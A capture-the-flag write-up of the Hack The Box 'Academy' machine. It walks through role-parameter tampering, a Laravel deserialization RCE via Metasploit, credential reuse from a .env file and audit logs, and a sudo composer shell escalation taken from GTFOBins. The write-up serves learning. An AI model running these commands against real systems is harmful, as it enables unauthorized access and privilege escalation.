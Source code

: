 1, recon
ports scan: 
	22/tcp ssh
	80/tcp http `redirect to http://academy.htb/`
	3306/tcp mysql
page check
	From original `index.php`, we only get the `/login.php`and `register.php`
	When we login with a normal account, there would nothing useful for us, but `/admin` is existed.
web-contents enumerate
	By using fuff to enumerate the existed url, there is nothing useful for us.And we check the sub-domains, there is nothing for us.

Let's check the sql-injection:
	In this place, we could not find any error sentences or output, so we could not know is there any sql injection.

This time we gonna try to use burp to catch the package of response.
The submitted information is very funny
`uid=wither&password=1234567&confirm=1234567&roleid=0`
If we change the roleid to 1, we can create a admin account for us.
![](images/Pasted%20image%2020240903090732.png)

In this place we get another sub-domain `dev-staging-01.academy.htb`

We get into a debug or developer platform, and we can get so much source codes and credits.

```
|DB_CONNECTION|"mysql"|
|DB_HOST|"127.0.0.1"|
|DB_PORT|"3306"|
|DB_DATABASE|"homestead"|
|DB_USERNAME|"homestead"|
|DB_PASSWORD|"secret"|
```

I guess `secret` would be the password for user `homestead`.Sadly, it does not.
Come to the error message 
`The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied`

The various logs above suggest this is running the Laravel PHP framework.

This service is `Laravel PHP framework` , let's check the vulnerability of that.
`PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution`
![](images/Pasted%20image%2020240903091836.png)

Then we just need to use MSF to get the `www-data` shell.

Let's enumerate the configs and secret files.
There is a useful file `/var/www/html/academy/.env`
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
We get the database credits and let us enumerate it, but we cannot check the database
`ERROR 1045 (28000): Access denied for user 'dev'@'localhost' (using password: YES)`
So let's check the `/etc/passwd` and find useful users.
```
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
```
By checking their directory, only user `cry0l1t3` is valid and luckily we can use the previous password to login.

In user `egre55` directory, there is a funny file
`.sudo_as_admin_successful`
and user `mrb3n` would also useful because of 
![Pasted image 20240903090732.png](Pasted image 20240903090732.png)

When I check id 
`uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)`
We found adm
`According to the docs, this group:`
```
Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.
```

After a bit of time running different grep commands across all the log data, I came across aureport, a tool that will parse the audit logs for various things. This page suggests the the --tty option can show plaintext passwords. I gave it a try, and it dumped mrb3n’s password on line 2:
```
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

This would be the password of user `mrb3n`
When we check `sudo -l`, finally we find something 
```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

There would be a tricky thing: we can find the hints from GTFOBins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
